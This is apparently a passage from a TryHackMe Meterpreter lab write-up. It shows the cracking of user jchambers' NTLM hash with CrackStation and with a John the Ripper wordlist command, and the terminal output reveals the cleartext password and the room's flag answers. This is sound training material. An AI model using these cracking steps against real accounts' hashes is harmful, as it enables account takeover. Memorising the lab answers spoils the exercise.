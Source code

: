 ```console
```
{: .nolineno}

We are looking for the 4th part of the hash : 69596c7aa1e8daee17f8e78870e25a5c.

Answer : 69596c7aa1e8daee17f8e78870e25a5c

### What is the cleartext password of the jchambers user?

We can use several tools to have the cleartext password of the NTLM hash. You can use online tools like crackstation or command line tools like John The Ripper or Hashcat.

Crasktation :

![Crasktation](/images/thm/meterpreter/meterpreter_1.png)
_Crasktation_

With John The Ripper :

```console
root@ip-10-10-196-135:~/Desktop/msmeterpreter# cat hash2.txt 
69596c7aa1e8daee17f8e78870e25a5c
root@ip-10-10-196-135:~/Desktop/msmeterpreter# john --format=NT --rules -w=/usr/share/wordlists/rockyou.txt hash2.txtUsing default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
Trustno1         (?)
1g 0:00:00:01 DONE (2021-09-26 13:58) 0.9090g/s 46778p/s 46778c/s 46778C/s blackrose1..2pac4ever
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
```
{: .nolineno }

Answer : Trustno1

### Where is the "secrets.txt"  file located?
